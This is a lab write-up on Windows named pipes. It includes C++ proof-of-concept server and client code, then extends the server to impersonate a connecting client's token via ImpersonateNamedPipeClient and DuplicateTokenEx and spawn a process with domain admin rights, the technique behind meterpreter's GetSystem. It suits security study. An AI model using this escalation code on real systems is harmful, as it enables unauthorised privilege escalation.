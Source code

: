 # Windows NamedPipes 101 + Privilege Escalation

## Overview

A `pipe` is a block of shared memory that processes can use for communication and data exchange.

`Named Pipes` is a Windows mechanism that enables two unrelated processes to exchange data between themselves, even if the processes are located on two different networks. It's very simar to client/server architecture as notions such as `a named pipe server` and a named `pipe client` exist.

A named pipe server can open a named pipe with some predefined name and then a named pipe client can connect to that pipe via the known name. Once the connection is established, data exchange can begin.

This lab is concerned with a simple PoC code that allows:

* creating a single-threaded dumb named pipe server that will accept one client connection
* named pipe server to write a simple message to the named pipe so that the pipe client can read it

## Code

Below is the PoC for both the server and the client:

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
	LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
	LPVOID pipeBuffer = NULL;
	HANDLE serverPipe;
	DWORD readBytes = 0;
	DWORD readBuffer = 0;
	int err = 0;
	BOOL isPipeConnected;
	BOOL isPipeOpen;
	wchar_t message[] = L"HELL";
	DWORD messageLenght = lstrlen(message) * 2;
	DWORD bytesWritten = 0;

	std::wcout << "Creating named pipe " << pipeName << std::endl;
	serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);
	
	isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
	if (isPipeConnected) {
		std::wcout << "Incoming connection to " << pipeName << std::endl;
	}
	
	std::wcout << "Sending message: " << message << std::endl;
	WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);
	
	return 0;
}
```
{% endtab %}

{% tab title="namedPipeClient.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
	LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
	HANDLE clientPipe = NULL;
	BOOL isPipeRead = true;
	wchar_t message[MESSAGE_SIZE] = { 0 };
	DWORD bytesRead = 0;

	std::wcout << "Connecting to " << pipeName << std::endl;
	clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	
	while (isPipeRead) {
		isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
		std::wcout << "Received message: " << message;
	}

	return 0;
}
```
{% endtab %}
{% endtabs %}

## Execution

Below shows the named pipe server and named pipe client working as expected:

![](../../.gitbook/assets/screenshot-from-2019-04-02-23-44-22.png)

Worth nothing that the named pipes communication by default uses SMB protocol:

![](../../.gitbook/assets/screenshot-from-2019-04-04-23-51-48.png)

Checking how the process maintains a handle to our named pipe `mantvydas-first-pipe`:

![](../../.gitbook/assets/screenshot-from-2019-04-06-14-40-57.png)

Similary, we can see the client having an open handle to the named pipe:

![](../../.gitbook/assets/screenshot-from-2019-04-06-14-59-41.png)

We can even see our pipe with powershell:

```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```

![](../../.gitbook/assets/screenshot-from-2019-04-06-15-09-05.png)

## Token Impersonation

It is possible for the named pipe server to impersonate the named pipe client's security context by leveraging a `ImpersonateNamedPipeClient` API call which in turn changes the named pipe server's current thread's token with that of the named pipe client's token.

We can update the the named pipe server's code like this to achieve the impersonation - note that modifications are seen in line 25 and below:&#x20;

```cpp
int main() {
	LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
	LPVOID pipeBuffer = NULL;
	HANDLE serverPipe;
	DWORD readBytes = 0;
	DWORD readBuffer = 0;
	int err = 0;
	BOOL isPipeConnected;
	BOOL isPipeOpen;
	wchar_t message[] = L"HELL";
	DWORD messageLenght = lstrlen(message) * 2;
	DWORD bytesWritten = 0;

	std::wcout << "Creating named pipe " << pipeName << std::endl;
	serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);
	
	isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
	if (isPipeConnected) {
		std::wcout << "Incoming connection to " << pipeName << std::endl;
	}
	
	std::wcout << "Sending message: " << message << std::endl;
	WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);
	
	std::wcout << "Impersonating the client..." << std::endl;
	ImpersonateNamedPipeClient(serverPipe);
	err = GetLastError();	

	STARTUPINFO	si = {};
	wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
	PROCESS_INFORMATION pi = {};
	HANDLE threadToken = GetCurrentThreadToken();
	CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

	return 0;
}
```

Running the server and connecting to it with the client that is running under administrator@offense.local security context, we can see that the main thread of the named server pipe assumed the token of the named pipe client - offense\administrator, although the PipeServer.exe itself is running under ws01\mantvydas security context. Sounds like a good way to escalate privileges?

![](../../.gitbook/assets/screenshot-from-2019-04-07-18-00-49.png)

Not so fast - unfortunately, I was not able to properly duplicate the token and use it to our advantage with the following code:

```cpp
	HANDLE 
		threadToken = NULL,
		duplicatedToken = NULL;

	OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, false, &threadToken);
	DuplicateTokenEx(threadToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicatedToken);
	err = GetLastError();
	CreateProcessWithTokenW(duplicatedToken, 0, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

For some reason, the DuplicateTokenEx call would return an error `1346 ERROR_BAD_IMPERSONATION_LEVEL` and I could not figure out what the issue was, so if you know, I would like to hear from you.

### Update #1

I was contacted by [Raymond Roethof](https://www.thalpius.com) and [@exist91240480](https://twitter.com/exist91240480) (huge thank you both!) and they suggested that my named pipe server was not holding `SeImpersonatePrivilege`which was causing the `ERROR_BAD_IMPERSONATION_LEVEL` when calling `DuplicateTokenEx`. Once the server hold the required privilege, everything worked as expected.

Note how `PipeServer.exe` running as a local admin `ws01\mantvydas` spawned a cmd shell with domain admin privileges `offense\administrator`- due to successfull token impersonation via named pipes:

![](../../.gitbook/assets/screenshot-from-2019-05-06-12-59-57.png)

{% hint style="info" %}
Note that this technique is used by meterpreter when attempting to escalate privileges when `GetSystem` command is used.. The same technique is used in the `PowerUp`.
{% endhint %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/ipc/interprocess-communications" %}
